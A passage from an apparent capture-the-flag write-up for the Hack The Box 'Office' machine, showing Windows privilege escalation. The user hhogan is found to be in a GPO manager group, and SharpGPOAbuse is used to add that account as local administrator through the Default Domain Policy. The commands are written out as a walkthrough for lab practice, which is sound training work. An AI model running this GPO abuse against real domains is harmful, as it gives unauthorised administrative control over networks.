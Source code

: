 We now have a stable shell as the user **hhogan**.
## Privesc: hhogan to system

Let's first check information regarding hhogan.

Upon inspecting the user’s privileges and group memberships, we can see that user **hhogan** is part of the “**GPO manager**” group. This indicates that the user has the ability to manage Group Policy Objects (**GPOs**) or potentially abuse them to gain access to the administrator account:

`whoami /all`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-66.png)


We will first list out all GPOs for potential exploits:

`Get-GPO -All | Select-Object -ExpandProperty DisplayName`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-67.png)

Using [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#sharpgpoabuse-abuse-gpo) as the guide, we should be able to escalate our privilege to administrator. 

Let's download and upload [SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse) to the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-68.png)

We will use **SharpGPOAbuse** to add user HHogan as the local administrator:

`./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount HHogan --GPOName "Default Domain Policy"`
